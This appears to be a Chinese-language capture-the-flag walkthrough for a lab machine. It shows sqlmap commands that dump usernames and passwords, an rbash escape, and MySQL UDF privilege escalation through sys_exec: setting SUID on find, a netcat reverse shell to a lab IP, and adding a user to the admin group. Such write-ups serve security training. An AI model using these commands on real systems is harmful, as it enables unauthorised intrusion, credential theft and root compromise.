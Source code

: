 # **level four** SQL注入+脏牛提权/MYSQL_UDF提权

## sqlmap

```bash
sqlmap -r level4 --level 4 --risk 3  
sqlmap -r level4 --level 4 --risk 3 -p mypassword --dbs
sqlmap -r level4 --level 4 --risk 3 -p mypassword -D members --tables
sqlmap -r level4 --level 4 --risk 3 -p mypassword -D members -T members --columns
sqlmap -r level4 --level 4 --risk 3 -p mypassword -D members -T members -C "username,password" --dump
```

得到

```bash
+----------+-----------------------+
| username | password              |
+----------+-----------------------+
| robert   | ADGAdsafdfwt4gadfga== |
| john     | MyNameIsJohn          |
+----------+-----------------------+
```

>发现是两用户的账户和密码  
ssh连接，得到rbash,输入`?`,可使用`echo os.system("/bin/bash")`逃逸  
>上传脚本查看服务器信息
>
> + 发现可以使用32位脏牛提权（还未实验）  
> + 可以无密码登录mysql的root用户（查看SOFTWARE）  
> + mysql以root身份运行(查看SERVICES)  

## MYSQL UDF提权

>两个条件  

1. Mysql -v >=5
2. 存在lib_mysqludf_sys  

```SQL
use mysql
select * from func;
```

三种方法  

+ 利用root权限构建SUID程序  

```mysql
SELECT sys_exec('chmod u+s /usr/bin/find') #使find指令可以用root权限执行
```

```bash
touch 111 #创建文件
find 111 -exec "/bin/sh" #打开终端
```

+ 使用root权限执行命令，建立反弹shell  
`select sys_exec("/bin/nc.traditional -e /bin/sh 192.168.205.138 8888");`

+ 使用root权限将当前用户加入管理员用户组  
`select sys_exec('usermod -a -G admin john')`  
`sudo su root` 更改用户

